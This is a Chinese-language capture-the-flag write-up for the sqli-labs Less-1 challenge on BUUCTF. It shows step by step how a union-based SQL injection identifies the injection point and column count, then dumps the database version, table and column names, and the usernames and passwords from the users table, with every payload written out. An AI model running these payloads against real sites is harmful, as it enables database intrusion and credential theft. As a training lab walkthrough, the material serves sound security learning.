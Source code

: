 # 分析

来自[BUUCTF_sqli-labs](https://buuoj.cn/challenges#sqli-labs)

## 判断注入点

当`http://40dd9317-fb33-4588-be74-bd647e6c8338.node5.buuoj.cn/Less-1/?id=1`时

![image-20240630134940746](image/image-20240630134940746.png)

当`id=2`时

![image-20240630135044010](image/image-20240630135044010.png)

因为根据id不同，返回的页面也不同，存在数据库查询，所有存在注入点

## 判断注入类型

### 数字型

当`select * from table_name where id=1 and 1=1`和 `select * from table_name where id=1 and 1=2`

第一句是恒成立的，页面回显正常，第二个为假，页面回显不正常

### 字符型

当`select * from table_name where id ='1' and '1'='1'`和`select * from table_name where id ='1' and '1'='2'`

第一句是恒成立的，页面回显正常，第二句为假，页面回显不正常

如果是字符型，还有判断闭合符号`'`，`"`，`')`，`")`，这里是`'`

## 判读显示位

当``?id=1'order by 3--+`回显正常，`?id=1'order by 4--+`回显错误，那回显位就是3

然后判断能回显的位

payload=`?id=-1'union select 1,2,3--+`，所有2和3能够正确回显

![image-20240630141439082](image/image-20240630141439082.png)

## 爆数据库和版本

payload=`?id=-1'union select 1,version(),database()--+`

![image-20240630141246297](image/image-20240630141246297.png)

## 爆表名

payload=`?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+`

![image-20240630142101997](image/image-20240630142101997.png)

## 爆列名

payload=`?id=-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+`

![image-20240630142407568](image/image-20240630142407568.png)

## 爆字段

payload=`?id=-1'union select 1,2,group_concat(username,'~',password) from users--+`

![image-20240630143002277](image/image-20240630143002277.png)

# exp

```python

```

